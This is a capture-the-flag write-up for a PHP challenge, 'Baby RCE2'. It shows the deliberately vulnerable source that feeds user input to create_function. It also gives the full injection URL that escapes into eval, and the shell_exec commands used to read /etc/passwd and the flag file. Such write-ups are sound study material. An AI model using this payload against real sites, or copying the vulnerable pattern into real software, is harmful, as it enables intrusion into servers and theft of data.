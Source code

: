 Alright, so we are initially greeted with a jarring pink page, a link to the source code, and a link to the page with "?code=echo 'hello foobar';" added on. From the name of the challenge alone, I know that this will be a remote code execution challenge. While PHP isn't my strong suit, this seems to be a good intro. Let's take a look at the source code.

```PHP
<?php
  error_reporting(0);
  if (isset($_GET['source'])) {
    show_source(__FILE__);
    die();
  }
?>

<!DOCTYPE HTML>
<html>
  <head>
    <title>baby rce2</title>
    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <style>
      body, html {
        height: 100%;
        background-color: #FF0DFF;
        color: black;
      }
      .corb-centered {
        position: relative;
        left: 50%;
        /* bring your own prefixes */
        transform: translate(-50%, 25%);
        background-color: white;
        padding: 20px;
        border: 2px solid black;
        border-radius: 25px;
      }
      .corb-php {
        max-width: 50%;
      }
    </style>
   <meta charset="UTF-16">
  </head>
  <body>
    <div class="corb-centered corb-php text-center">
      <h1>Baby RCE2</h1>
      <h3>
        <a target="_blank" href="/index.php?source">source</a>
      </h3>
      <h3>
        Start here : <a href="/index.php?code=echo 'hello foobar';">Hello foobar</a>
      </h3>

      <div class="text-left">
        <h3>Output : </h3>
        <pre><code><?php
        if (isset($_GET['code'])) {
          $new_func = create_function('', $_GET['code']);
          if ($_GET['code'] === "echo 'hello foobar';") {
            $new_func();
          }
        }
        ?></code></pre>
      </div>
    </div>

  </body>
</html>
```

Seems to me that the first php block is just there to show us the source code and not load the page at all if we have a GET parameter named "source". So, the only bit of code that we should really need to focus on is this:

```php
<?php
        if (isset($_GET['code'])) {
          $new_func = create_function('', $_GET['code']);
          if ($_GET['code'] === "echo 'hello foobar';") {
            $new_func();
          }
        }
        ?>
```

So, in order, if there is a GET parameter named "code", it stores create_function("", <code we enter>) in a variable. That variable seemingly only runs the function if we have specifically entered "echo 'hello foobar';". Given that this is an RCE, I imagine there's some way around that, though.

Turns out create_function is deprecated. Part of the reason for that is that it runs an internal eval(), which is full of security issues. Sure enough, it didn't take long to find out that I can run an extra function that will be looking for a GET variable right after echo, so long as I use a bracket to close the anonymous function. The full URL that I used to accomplish this was `http://chall.ctfs.me:8012/index.php?code=echo%20%27hello%20foobar%27;}eval($_GET[script]);/*;&script=echo%20hi;`. This overrides the original 'hello foobar' echo, and instead runs the code of my choice in the GET parameter "script".

Now I can execute code, but I have no idea what to execute to get the flag. Great. Initially I used `readfile` to read out /etc/passwd for me, but there was no luck there. Then I found out shell_exec existed, and that made my life a million times easier. PHP isn't my strong suit, but I can work with bash.

Going up one directory at a time, I found the `flag.txt` file with `shell_exec("ls ../../.. -la");`. Now I just needed to read it with `cat` and I was home free.
